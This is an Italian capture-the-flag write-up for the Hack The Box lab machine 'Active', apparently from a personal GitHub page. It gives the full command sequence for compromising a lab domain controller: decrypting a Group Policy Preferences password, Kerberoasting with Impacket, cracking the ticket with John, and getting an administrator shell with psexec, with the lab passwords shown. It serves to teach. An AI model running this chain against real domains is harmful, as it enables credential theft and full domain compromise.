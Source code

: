 # Active

## Reconnaissance

Per prima cosa eseguo una scansione iniziale con _nmapAutomator_.

```text
sudo nmapAutomator.sh --host 10.10.10.100 --type All
```

Il risultato della scansione è il seguente:

```text
Host is likely running Windows


---------------------Starting Port Scan-----------------------

PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49157/tcp open  unknown
49158/tcp open  unknown
49165/tcp open  unknown


---------------------Starting Script Scan-----------------------

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid:
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-01-09 13:49:16Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49165/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| smb2-time:
|   date: 2024-01-09T13:50:12
|_  start_date: 2024-01-09T10:17:28
| smb2-security-mode:
|   2:1:0:
|_    Message signing enabled and required


----------------------Starting UDP Scan------------------------

PORT    STATE SERVICE
53/udp  open  domain
88/udp  open  kerberos-sec
123/udp open  ntp
389/udp open  ldap

PORT    STATE SERVICE      VERSION
53/udp  open  domain       Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
88/udp  open  kerberos-sec Microsoft Windows Kerberos (server time: 2024-01-09 13:54:51Z)
123/udp open  ntp          NTP v3
389/udp open  ldap         Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows


---------------------Starting Vulns Scan-----------------------

Running CVE scan on all ports

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-01-09 13:55:07Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5722/tcp  open  msrpc         Microsoft Windows RPC
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49165/tcp open  msrpc         Microsoft Windows RPC
49170/tcp open  msrpc         Microsoft Windows RPC
49171/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows
```

Aggiungo _active.htb_ al file _/etc/hosts_ e passo alla fase successiva.

## Enumeration

Provando ad enumerare il DNS, non ottengo nessun risultato.

Provo quindi con _smbmap_:

```text
smbmap -H 10.10.10.100
```

<p align="center">
  <img src="/Immagini/Windows-Box/Active/active-1.png"/>
</p>

Lo share Replication può essere letto quindi provo con questo comando:

```text
smbclient //active.htb/Replication -N
```

<p align="center">
  <img src="/Immagini/Windows-Box/Active/active-2.png"/>
</p>

Dopo aver eseguito una rapida ricerca su google scopro che il file Groups.xml è un file di policy caratterizzato da una feature pericolosa che prevede l'utilizzo dell'algoritmo di cifratura AES (di cui la chiave è pubblica) per il salvataggio di username e password.

Quindi scarico il file sulla mia macchina:

```text
get Groups.xml
```

Ispeziono il file:

<p align="center">
  <img src="/Immagini/Windows-Box/Active/active-3.png"/>
</p>

Per decriptare la password utilizzo _gpp-decrypt_:

```text
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```

Ottenendo il seguente risultato:

```text
GPPstillStandingStrong2k18
```

## Exploitation

Con la password appena trovata e l'username all'interno del file xml provo ad entrare nello share USERS:

```text
smbclient -W active.htb -U SVC_TGS //active.htb/USERS
```

<p align="center">
  <img src="/Immagini/Windows-Box/Active/active-4.png"/>
</p>

<p align="center">
  <img src="/Immagini/Windows-Box/Active/active-5.png"/>
</p>

**Trovo così il primo flag!**

## Privilege Escalation

Per scalare i privilegi provo ad utilizzare la tecnica nota come _Kerberoasting_.

Questa tecnica consiste nel compromettere un utente che dispone di un ticket di connessione TGT per richiedere uno o più ticket di servizio TGS per un qualsiasi servizio SPN.

Siccome una porzione del ticket TGS viene crittografata con l'hash dell'account di servizio associato all'SPN, si potrebbe eseguire un attacco di brute-force per ricavare la password di questo account admin. Se quindi chiedo un ticket TGS per l'admin e questo usa una password debole, sono in grado di decifrarla.

Per eseguire l'attacco utilizzo [_Impacket_](https://github.com/fortra/impacket) che include una raccolta di classi python per lavorare con i protocolli di rete.

In particolare utilizzo il codice _GetUserSPNs.py_ nella directory _exemples_:

```text
./GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request
```

Ottengo così la seguente chiave per l'utente _Administrator_:

<p align="center">
  <img src="/Immagini/Windows-Box/Active/active-6.png"/>
</p>

Quindi salvo questo TGS nel file _spn-administator.txt_ e provo a ricavare la password tramite _johntheripper_:

```text
john --wordlist=/usr/share/wordlists/rockyou.txt spn-administator.txt
```

**Bingo!**

La password è la seguente:

```text
Ticketmaster1968
```

Per loggarmi come admin utilizzo lo script _psexec.py_:

```text
psexec.py active.htb/Administrator:Ticketmaster1968@active.htb
```

<p align="center">
  <img src="/Immagini/Windows-Box/Active/active-7.png"/>
</p>

**Ottengo così il secondo flag!**
